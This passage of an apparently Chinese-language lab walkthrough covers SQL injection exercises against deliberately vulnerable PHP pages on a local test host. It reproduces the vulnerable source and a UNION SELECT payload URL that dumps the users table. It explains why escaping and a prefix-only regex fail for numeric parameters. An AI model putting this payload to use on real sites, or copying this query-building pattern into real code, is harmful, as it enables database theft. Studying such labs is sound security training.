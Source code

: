 ![图像 9.png](http://upload-images.jianshu.io/upload_images/4838174-4553e0f58d28fcc0.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
看看源码

```php
<?php
  require_once('../header.php');
  require_once('db.php');
  $sql="SELECT * FROM users where id=";
    $sql.=mysql_real_escape_string($_GET["id"])." ";
    $result = mysql_query($sql);
    

    if ($result) {
        ?> 
        <table class='table table-striped'> 
      <tr> <th> id</th> <th> name</th> <th> age</th> </tr> 

        <?php
        while ($row = mysql_fetch_assoc($result)) {
            echo "<tr> ";
                echo "<td> ".$row['id']."</td> ";
                echo "<td> ".$row['name']."</td> ";
                echo "<td> ".$row['age']."</td> ";
            echo "</tr> ";
        }   
        echo "</table> ";
    }
    require '../footer.php';
?> 
```

有个过滤函数，mysql_real_ecape_string（）对特殊符号转义，但这数字型没有特殊符号，就绕过了
![图像 10.png](http://upload-images.jianshu.io/upload_images/4838174-5fa81f9d5b0e251d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

### example5
额，上题payload同样可以适用

> http://192.168.132.131/sqli/example5.php?id=2%20union%20select%20group_concat(id),2,3,4,5%20from%20users#

看看源码
```php
<?php

  require_once('../header.php');
  require_once('db.php');
    if (!preg_match('/^[0-9]+/', $_GET["id"])) {
        die("ERROR INTEGER REQUIRED");  
    }
    $sql = "SELECT * FROM users where id=";
    $sql .= $_GET["id"] ;
    
    $result = mysql_query($sql);

    if ($result) {
        ?> 
        <table class='table table-striped'> 
      <tr> <th> id</th> <th> name</th> <th> age</th> </tr> 
        <?php
        while ($row = mysql_fetch_assoc($result)) {
            echo "<tr> ";
                echo "<td> ".$row['id']."</td> ";
                echo "<td> ".$row['name']."</td> ";
                echo "<td> ".$row['age']."</td> ";
```